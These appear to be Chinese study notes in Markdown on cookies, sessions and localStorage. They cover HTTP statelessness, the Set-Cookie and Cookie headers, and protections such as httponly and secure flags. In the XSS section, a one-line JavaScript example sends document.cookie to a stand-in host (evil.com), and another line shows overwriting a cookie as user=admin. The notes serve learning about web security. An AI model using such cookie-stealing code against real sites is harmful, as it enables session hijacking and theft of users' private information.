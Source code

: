 > 1.  cookie
> 2.  **session**
> 3.  **localStorage**
>
> > Cookie通过在客户端记录信息确定用户身份，Session通过在服务器端记录信息确定用户身份。

- cookie、localStorage、sessionStorage既然是同源策略，为什么不安全呢？

  - 你可以设置httponly，即无法通过js读写.

  - 验证码 => 需要验证两个 cookie，一个验证的是用户名，一个验证的是随机数，由于是随机数

    故大大提高了难度

  - 利用加密方式防止明文值被破解

  - **强制要求开启HTTPS连接**

    服务器传送cookie时设置属性secure为true,表示创建的cookie只能在HTTPS连接中被浏览器传递到服务器端进行会话验证

  - 

  1. `xss攻击,` 盗取cookie的数据！获取私有用户的信息。 合肥项目的cookie开发环境的cookie的设置！

     ````js
     new Image().src=”http://www.evil.com?”+escape(document.cookie)
     ````

     即便secure开启且https => 你可以覆盖cookie的方法,对google进行了攻击

     ```js
     document.cookie=”user=admin;domain=’.test.com’;path=’/aaa’;secure;httponly”
     ```

  2. 

#### 1 cookie

- 为什么要有cookie

  1. 在下一个请求发送时，服务器无法确定这次请求和上次的请求是否来自同一个客

     户端。`如何让服务器知道不同的请求是否来自同一个客户端`

     HTTP是一种无状态的协议： 无状态是指Web浏览器与Web服务器之间不需要建立持久的连接。

     ​	虽然你可以设置为持久连接，但是一段时间以后服务器也是可以断开。不管怎么样，你始终保持着客户端无相关信息的状态。

     ⭐

     - 在服务器端不保留连接的有关信息， 故你不能通过服务器端发送信息给客户端
     - 客户端保存用户状态即使用cookie，这样就变成了有状态的请求。

  2. cookies就是http的一个扩展

     有两个http头部是专门负责设置以及发送cookie的,它们分别是`Set-Cookie`以及`Cookie`

     第一次请求无cookie， 而第一次的响应会有 set-cookie。

     第二次请求 + cookie

     - Set-Cookie
